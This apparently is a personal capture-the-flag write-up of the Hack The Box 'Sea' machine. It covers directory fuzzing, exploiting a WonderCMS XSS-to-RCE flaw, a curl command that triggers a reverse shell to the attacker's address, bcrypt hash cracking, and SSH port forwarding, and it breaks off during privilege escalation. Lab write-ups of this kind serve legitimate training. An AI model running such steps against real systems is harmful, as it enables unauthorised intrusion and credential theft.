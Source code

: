 
2024-08-17 13:23

Source: #htb #CTF 
### Reconnaissance 

- `nmap` scan shows `22/tcp ssh` & `80/tcp http`
- the home page of the website isn't useful 
- on visiting the 2nd page we find a contact button that takes us to `contact.php`

`Contact.php` has a few input fields. The first thing that comes up in mind is XSS. 
trying out XSS payloads don't really do anything
### Enumeration

#### using Dirbuster

open the GUI version of Dirbuster and check the `use Blank Extension` box this will find sub-directories of sub-directories. we find `/themes/bike` gets `301` response. 
#### Alternate using [[ffuf]] 

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://sea.htb/FUZZ
```
and further find sub-directories of sub-directories of `/themes` (`/themes` was one of the outputs of the above command) we choose `/themes` hoping to find a `cms` 
```shell
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://sea.htb/themes/FUZZ
```
on running `ffuf` again we find a `/bike` directory that has a `301` response.

- we get a `403` error when trying to open this in the browser 
> - Try to put files after `/bike/` like `LICENSE`, `robots.txt`, `README.md` and fortunately `README.md` gave something interesting

- take the `GET` request made to `/themes/bike` that gave us `403` error 
- now in the burp repeater change the `GET` request to `/themes/bike/README.md` and hit
- in the response we see that we have instructions on how to use `WonderCMS`
- above in the dirbuster results we saw a `themes/bike/version` directory that gives us the version of the CMS on visiting the URL.
### Exploit

Cross Site Scripting vulnerability in Wonder CMS v.3.2.0 thru v.3.4.2 allows a remote attacker to execute arbitrary code via a crafted script uploaded to the `installModule` component.
- we can get the script for this from github 

- running the exploit and having a netcat listener open doesn't give us a shell 
- we somehow have to trigger the `rev.php` file to make target server’s connection with our machine so, lets run this command in another terminal while having the listener on

I saw this line mentioned multiple times in the code `(“GET”, urlWithoutLogBase+”/themes/revshell-main/rev.php”)` So I just put target URL and gave it a shot!
```shell
curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.57&lport=4444'
```

- we have `amay` and `geo` in the home directory 
- without further ado we run `Linpeas` on this 
- in the interesting files section we find a `/var/www/sea/data/database.js`
- on opening this file we find a password hash (possibly amay's ssh password)

[[Cryptography]] before running john through the password we need to reformat it by removing `\` in order to crack it successfully. use John The Ripper
```shell
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt filename.txt
```
### Privilege Escalation 

Run `Linpeas`... we don't really find anything
I then decided to check if there is anything on Amay’s local host. To do that there is a technique called [[Port Forwarding]]. It basically takes a user’s port and redirect it’s traffic to our port. run the following on your local machine 
```
ssh -L 4444:localhost:8080 amay@sea.htb
```
If you’re logged in, you’re good to go. If not, check what’s running on your localhost:4444 you can check that by this command:
```
sudo lsof -i :4444
```
If you see some other services, kill the PID and then try the [[ssh]] command again.

go to `localhost:4444` in your local browser and login with username as amay and password as mychemicalromance(cracked hash password)

we see a system monitoring page that is under development and we also see a analyze button that analyses the log files 
keep [[burpsuite]] on for rest of the process




### References
https://app.hackthebox.com/competitive/6/overview

walkthrough - https://medium.com/@haroonharoon17/sea-hack-the-box-walk-through-77b1030ce0bc

CMS exploit - [GitHub - prodigiousMind/CVE-2023-41425: WonderCMS Authenticated RCE - CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425?source=post_page-----77b1030ce0bc--------------------------------)

